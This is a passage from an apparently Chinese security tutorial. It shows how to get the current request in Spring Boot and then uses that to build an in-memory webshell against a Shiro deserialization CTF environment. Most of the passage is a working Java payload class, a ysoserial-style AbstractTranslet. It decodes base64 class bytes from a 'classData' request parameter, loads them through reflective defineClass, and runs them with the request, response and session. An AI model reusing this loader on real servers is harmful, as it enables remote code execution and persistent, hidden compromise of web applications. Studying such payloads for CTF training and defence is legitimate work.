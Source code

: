 1. 不要在请求方法里另起一个子线程调用该方法；
2. 在请求周期中，尽可能不要传递Request实例给多线程使用，因为子线程可能在Request生命周期结束销毁后再使用Request时获取不了参数，否则必须同步线程     让其在生命周期结束前调用；

在Spring Boot中，如果我们要获取当前Request实例，可以通过以下这个方法获取。

`使用RequestContextHolder.getRequestAttributes()的注意事项



`HttpServletRequest request = ((ServletRequestAttributes) RequestContextHolder.getRequestAttributes()).getRequest();`



同样的使用了Spring框架的都可通过如上方法获取，这里我们结合之前CTF题目 login me again的漏洞环境进行实现内存webshell。

需要注意的是，漏洞环境为shiro。我们将攻击payload分为两部分，不面header的长度超出限制。请求参数classData为需要注入的代码，实现方式为defineClass，通过ClassLoader执行字节码

```java
package ysoserial;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class MyClassLoader extends AbstractTranslet {
    static{
        try{
            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
            java.lang.reflect.Field r=request.getClass().getDeclaredField("request");
            r.setAccessible(true);
            org.apache.catalina.connector.Response response =((org.apache.catalina.connector.Request) r.get(request)).getResponse();
            javax.servlet.http.HttpSession session = request.getSession();

            String classData=request.getParameter("classData");
            System.out.println(classData);

            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);
            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
            defineClassMethod.setAccessible(true);
            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);
            cc.newInstance().equals(new Object[]{request,response,session});
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public void transform(DOM arg0, SerializationHandler[] arg1) throws TransletException {
    }
    public void transform(DOM arg0, DTMAxisIterator arg1, SerializationHandler arg2) throws TransletException {
    }
}

```
